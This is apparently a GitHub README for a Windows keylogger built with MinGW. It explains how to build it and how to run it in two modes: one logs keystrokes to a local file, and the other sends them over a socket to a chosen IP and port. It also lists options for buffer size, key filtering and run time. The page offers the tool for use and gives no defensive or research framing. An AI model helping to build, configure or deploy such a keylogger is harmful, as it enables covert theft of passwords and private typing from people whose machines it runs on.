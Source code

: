 BUILD AND RUN FOR WINDOWS ONLY

# Installation

run command make

# Dependencies

[MinGW](http://www.mingw.org) for g++ and command make

# Usage

This program propose 2 type of keylogger

## Parameters

### [REQUIERED] Please, choose one of them

        -l | --local : local keylogger, store data into file on this computer, require 1 argument (destination_file)
                Example : ./bin/main.exe -l D:\file.txt

        -r | --remote : remote keylogger, send data via socket, require 2 arguments (ip, port)
                Example : ./bin/main.exe -r 192.168.1.16 7777

### [OPTIONAL]

        -b | --buffer_size : Buffer size before store data (file or socket) (DEFAULT : 50)
                Example : ./bin/main.exe ... -b 100

        -c | --no_click : don't store click keys (based on ascii)
                Example : ./bin/main.exe ... -c

        -a | --alphabet_only : Store alphabet only, A-z (based on ascii)
                Example : ./bin/main.exe ... -a

        -C | --storage_format_character : Default storage format is int, use this option if you want to store as character
                Example : ./bin/main.exe ... -C
                
        -t | --timer : How much time (second) before stop  keylogger (DEFAULT : 999999999)
                Example : ./bin/main.exe ... -t 500

        -h | --help : Show this help
                Example : ./bin/main.exe -h

